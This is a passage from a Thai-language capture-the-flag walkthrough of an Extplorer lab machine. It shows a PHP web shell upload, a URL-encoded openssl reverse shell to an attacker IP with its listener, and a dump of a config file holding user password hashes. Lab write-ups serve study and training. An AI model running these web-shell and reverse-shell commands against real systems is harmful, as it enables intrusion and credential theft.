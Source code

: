 ทดสอบ Upload Shell 
```bash
cp /usr/share/webshells/php/simple-backdoor.php .
mv simple-backdoor.php shell.php
```

![[Challenge/ProvingGround/Extplorer/IMG/005.png]]

ทดสอบ `http://192.168.245.16/shell.php?cmd=ls` เราจะสามารถ Shell ไปที่เป้าหมายได้ 

![[Challenge/ProvingGround/Extplorer/IMG/006.png]]
# Shell as www-data

```http
http://192.168.245.16/shell.php?cmd=mkfifo%20%2Ftmp%2Fs%3B%20sh%20-i%20%3C%20%2Ftmp%2Fs%202%3E%261%20|%20openssl%20s_client%20-quiet%20-connect%20192.168.45.152%3A443%20%3E%20%2Ftmp%2Fs%3B%20rm%20%2Ftmp%2Fs
```

```bash
sudo openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 30 -nodes;sudo openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

![[Challenge/ProvingGround/Extplorer/IMG/007.png]]

# Filemanager config enum

```bash
www-data@dora:/var/www/html/filemanager/config$ pwd 
pwd 
/var/www/html/filemanager/config
www-data@dora:/var/www/html/filemanager/config$ ls 
ls 
bookmarks_extplorer_admin.php  conf.php  index.html  mimes.php
www-data@dora:/var/www/html/filemanager/config$ ls -la 
ls -la 
total 36
drwxr-xr-x  2 www-data www-data 4096 Apr  6  2023 .
drwxr-xr-x 11 www-data www-data 4096 Apr  6  2023 ..
-rw-r--r--  1 www-data www-data   15 Feb 23  2016 .htaccess
-rw-r--r--  1 www-data www-data  413 Apr  6  2023 .htusers.php
-rw-rw-r--  1 www-data www-data   99 Apr  6  2023 bookmarks_extplorer_admin.php
-rw-r--r--  1 www-data www-data 3007 Jan  6  2022 conf.php
-rw-r--r--  1 www-data www-data   44 Feb 23  2016 index.html
-rw-r--r--  1 www-data www-data 7871 Jan  6  2022 mimes.php
www-data@dora:/var/www/html/filemanager/config$ cat .htusers.php
cat .htusers.php
<?php 
        // ensure this file is being included by a parent file
        if( !defined( '_JEXEC' ) && !defined( '_VALID_MOS' ) ) die( 'Restricted access' );
        $GLOBALS["users"]=array(
        array('admin','21232f297a57a5a743894a0e4a801fc3','/var/www/html','http://localhost','1','','7',1),
        array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),
); 
?>www-data@dora:/var/www/html/filemanager/config$ 

```
